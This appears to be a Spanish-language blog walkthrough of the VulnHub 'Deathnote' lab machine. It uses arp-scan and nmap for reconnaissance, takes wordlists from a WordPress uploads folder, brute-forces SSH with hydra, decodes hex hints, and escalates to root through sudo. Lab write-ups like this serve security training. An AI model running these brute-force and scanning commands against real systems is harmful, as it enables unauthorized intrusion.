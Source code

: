 ```yaml
---
layout: post
title: "Deathnote"
date: 2024-05-18 10:37:23
category: sample
vm: vulnhub
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Deathnote </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/deathnote-1,739/"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/Deathnote/host.png){:.margin}

**1\.** Pillamos la ip objetivo en la red.

`sudo arp-scan -l`

![img](/notas/public/img/vulnhub/Deathnote/arp.png){:.margin}

**2\.** Escaneo puertos y servicios abiertos.

`sudo nmap -p- --open -T5 -sS -sCV -Pn -n --min-rate=5000 192.168.1.60 -oN savescan`

![img](/notas/public/img/vulnhub/Deathnote/nmap.png){:.margin}

**3\.** Visito la web apache y me redirige a un dominio que no se puede resolver. 

`http://192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/80.png)
![img](/notas/public/img/vulnhub/Deathnote/80redirect.png)

**4\.** Para solucionar este error añadimos el dominio en el hosts.

`nano /etc/hosts`

`192.168.1.60 deathnote.vuln`

![img](/notas/public/img/vulnhub/Deathnote/hosts.png){:.margin}

_\- Ya nos resuelve el dominio_

![img](/notas/public/img/vulnhub/Deathnote/redirectok.png){:.margin}

**5\.** Veo la pista(hint), pone que tenemos que encontrar un archivo.

`http://deathnote.vuln/wordpress/index.php/hint/`

![img](/notas/public/img/vulnhub/Deathnote/hint.png){:.margin}

**6\.** Mas abajo podemos ir al comentario de L.

![img](/notas/public/img/vulnhub/Deathnote/comment.png)
![img](/notas/public/img/vulnhub/Deathnote/commentredirect.png)

**7\.** Vemos el codigo fuente y filtramos por notes, lo tenemos.

![img](/notas/public/img/vulnhub/Deathnote/noteslink.png){:.margin}

**8\.** Voy al link pero no funciona.

`http://deathnote.vuln/wordpress/wp-content/uploads/notes.txt`

![img](/notas/public/img/vulnhub/Deathnote/notesfail.png){:.margin}

**9\.** Se me da por eliminar el nombre del archivo y tengo un directorio, busco el archivo.

`http://deathnote.vuln/wordpress/wp-content/uploads/`

![img](/notas/public/img/vulnhub/Deathnote/directory.png){:.margin}
![img](/notas/public/img/vulnhub/Deathnote/directory2.png){:.margin}
![img](/notas/public/img/vulnhub/Deathnote/directory3.png){:.margin}

**10\.** Reviso el contenido de cada archivo.

_10.1- En notes tenemos una lista de palabras_

`http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt`

![img](/notas/public/img/vulnhub/Deathnote/notessee.png){:.margin}

_10.2- En user tenemos otra lista_

![img](/notas/public/img/vulnhub/Deathnote/usersee.png){:.margin}

**11\.** Me descargo todo estos archivos de forma recursiva.

`wget -r --no-parent --reject "index.html*" -q http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/`

`ls`

![img](/notas/public/img/vulnhub/Deathnote/wget.png){:.margin}

**12\.** Revisando la carpeta  encuentro un fichero que me da una pista.

`cd deathnote.vuln`

`ls`

`cat robots.txt`

![img](/notas/public/img/vulnhub/Deathnote/robots.png){:.margin}

**13\.** Analizando la imagen.

_13.1- Voy a la imagen en la web_

`http://deathnote.vuln/important.jpg`

![img](/notas/public/img/vulnhub/Deathnote/important.png){:.margin}

_13.2- Veo la data en la imagen, me da mas detalles_

`curl http://deathnote.vuln/important.jpg`

![img](/notas/public/img/vulnhub/Deathnote/curl.png){:.margin}

_13.3- Otra opcion es descargar la imagen y leer la data_

`wget http://deathnote.vuln/important.jpg -q`

`cat important.jpg`

![img](/notas/public/img/vulnhub/Deathnote/cat.png){:.margin}

**14\.** Haciendo fuerza bruta al ssh.

_14.1- Me ubico donde los archivos notes y user_

`cd deathnote.vuln/wordpress/wp-content/uploads/2021/07`

`ls`

![img](/notas/public/img/vulnhub/Deathnote/cdfiles.png){:.margin}

_14.2- Hago fuerza bruta para tener las credenciales_

`hydra -L user.txt -P notes.txt ssh://192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/hydra.png){:.margin}

_14.3- Accedo por ssh como usuario L_

`ssh l@192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/sshl.png){:.margin}

**15\.** Despues de indagar mucho, encuentro una carpeta en opt. 

`cd /opt`

`ls`

`cd L`

`ls`

`find`

![img](/notas/public/img/vulnhub/Deathnote/diropt.png){:.margin}

**16\.** Viendo el contenido de los archivos.

_16.1- Leendo case-file.txt_

`cat Kira-case/case-file.txt`

![img](/notas/public/img/vulnhub/Deathnote/casefile.png){:.margin}

_16.2- Leendo case.wav y hint_

`cat fake-notebook-rule/case.wav`

`cat fake-notebook-rule/hint`

![img](/notas/public/img/vulnhub/Deathnote/wavhint.png){:.margin}

**17\.** Al parecer tenemos un texto en hexadecimal y nos dice que usemos [Cyberchef](https://gchq.github.io/CyberChef/).

_17.1- Pego el hex y por debajo me detecta para decodificar_

![img](/notas/public/img/vulnhub/Deathnote/cyberchef.png){:.margin}

_17.2- Hago click y me muestra el texto decodificado_

![img](/notas/public/img/vulnhub/Deathnote/outputpass.png){:.margin}

**18\.** Accedo por ssh como kira.

`ssh kira@192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/sshkira.png){:.margin}

**19\.** Encuentro un archivo, sigo pasos anteriores con cyberchef.

_19.1- Leo el archivo_

`ls`

`cat Kira.txt`

![img](/notas/public/img/vulnhub/Deathnote/kiratxt.png){:.margin}

_19.2- Lo analizo con cyberchef_

![img](/notas/public/img/vulnhub/Deathnote/cyberchefkira.png){:.margin}

_\- Estos directorios ya los vimos, asi que no hace falta mas nada_

**20\.** Obteniendo superusuario.

_20.1- Veo mis permisos de sudo ingresando mi contraseña_

`sudo -l`

![img](/notas/public/img/vulnhub/Deathnote/sudol.png){:.margin}

_20.2- Ya que tengo permiso general, accedo como root_

![img](/notas/public/img/vulnhub/Deathnote/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>